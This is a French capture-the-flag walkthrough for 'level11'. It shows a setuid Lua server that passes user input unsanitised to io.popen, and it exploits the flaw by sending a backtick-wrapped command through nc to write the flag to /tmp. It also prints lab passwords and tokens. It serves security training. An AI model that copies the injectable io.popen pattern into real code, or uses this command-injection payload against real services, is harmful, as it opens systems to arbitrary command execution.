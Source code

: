 # Level11: Exploit script lua & faille io.popen

> login:password -> *`level11:feulo4b72j7edeahuete3no7c`*
```
:~$ su level11
Password:feulo4b72j7edeahuete3no7c
```
---

```
:~$ pwd
/home/user/level11
```

```
:~$ ls -la
...
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
...
```

Le Home contient un script lua :

```
:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151)) (ici écoute et vérifie le port :5151)

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r") (ici il utilise io.popen() pour faire echo du mot de passe reçu avec sha1sum )
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

:~$ lua level11.lua
lua: level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	level11.lua:3: in main chunk
	[C]: ?

```

On remarque que le serveur est déjà lancé, nous pouvons donc utiliser `nc` ou `telnet` sur le port :5151.\
Cependant on peux voir également que c'est un programme qui va attendre le hash d'un mot de passe sur le port :5151, pour le comparer, mais il va également faire un s'en servir pour exécuter une commande.\
On va donc pouvoir exploiter cette faille, directement depuis la demande de `Password:`.

```
:~$ nc localhost 5151
Password: `getflag > /tmp/flag11`
Erf nope..

:~$ cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Le flag nous permet de se connecter au level12
`level12:fa6v5ateaw21peobuub8ipe6s`